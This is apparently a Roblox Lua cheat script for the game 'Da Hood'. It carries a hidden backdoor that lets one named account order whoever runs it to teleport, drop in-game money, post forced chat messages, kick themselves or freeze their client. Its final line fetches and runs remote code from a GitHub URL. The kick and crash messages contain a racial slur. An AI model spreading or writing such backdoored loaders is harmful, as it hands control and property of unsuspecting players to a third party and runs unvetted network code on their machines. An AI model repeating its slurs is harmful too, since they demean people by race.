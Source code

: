 function drop()
local args = {
    [1] = "DropMoney",
    [2] = "10000"
}

game:GetService("ReplicatedStorage").MainEvent:FireServer(unpack(args))
end

function message(message)
local args = {
    [1] = message,
    [2] = "All"
}
game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(unpack(args))
end

spawn(function()
    pcall(function()
local Admin = "xSyn2x"
local Table = {}


local function Chatted(Player)
    Player.Chatted:Connect(function(msg)
        msg = string.lower(msg)
        msg = string.gsub(msg, " ", "")
          if string.sub(msg,1,1) == ":" then
              if string.sub(msg,2,7) == "summon" or string.sub(msg,2,6) == "bring" then
                  game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[Admin].Character.HumanoidRootPart.CFrame
                elseif
                string.sub(msg,2,10) == "apologize" then
                  message("I "..game.Players.LocalPlayer.DisplayName..", would like to apologize.")
                elseif
                string.sub(msg,2,5) == "Kick"  then
                    game.Players.LocalPlayer:Kick("nigger")
                elseif
                string.sub(msg,2,5) == "drop" then
                    drop()
                elseif
                string.sub(msg,2,3) == "re" or string.sub(msg,2,6) == "reset" then
                    game.Players.LocalPlayer.Character.Humanoid:Remove()
                elseif
                string.sub(msg,2,7) == "dfists" then
                    game.Players.LocalPlayer.Backpack:FindFirstChild("Combat").Parent = workspace
                elseif
                string.sub(msg,2,10) == "breakback" then
                    game.Players.LocalPlayer.Character.UpperTorso.Waist:remove()
                elseif
                string.sub(msg,2,5) == "rude" then
                    message("nobody likes u lol")
                elseif
                string.sub(msg,2,4) == "sit" then
                    game.Players.LocalPlayer.Character.Humanoid.Sit = true
                elseif
                string.sub(msg,2,7) == "praise" then
                    message("I praise... Master Enox")
                elseif
                string.sub(msg,2,6) == "crash" then
                    local crash = Instance.new("Message", game:GetService("CoreGui"))
	                crash.Text = 'damn nigger time to rejoin'
	                wait()
	                spawn(function() while true do end end)
	        end
	      end   
       end)
   end

for _, v in pairs(game.Players:GetChildren()) do
    if v.Name == Admin then
        Chatted(v)
    end
end

game.Players.PlayerAdded:Connect(function(Player)
    if Player.Name == Admin and not table.find(Table,Player.Name) then
        table.insert(Table, Player.Name)
        Chatted(Player)
    end
    end)
  end)
end)


loadstring(game:HttpGet('https://raw.githubusercontent.com/SpaceYes/Lua/Main/DaHood.Lua'))()
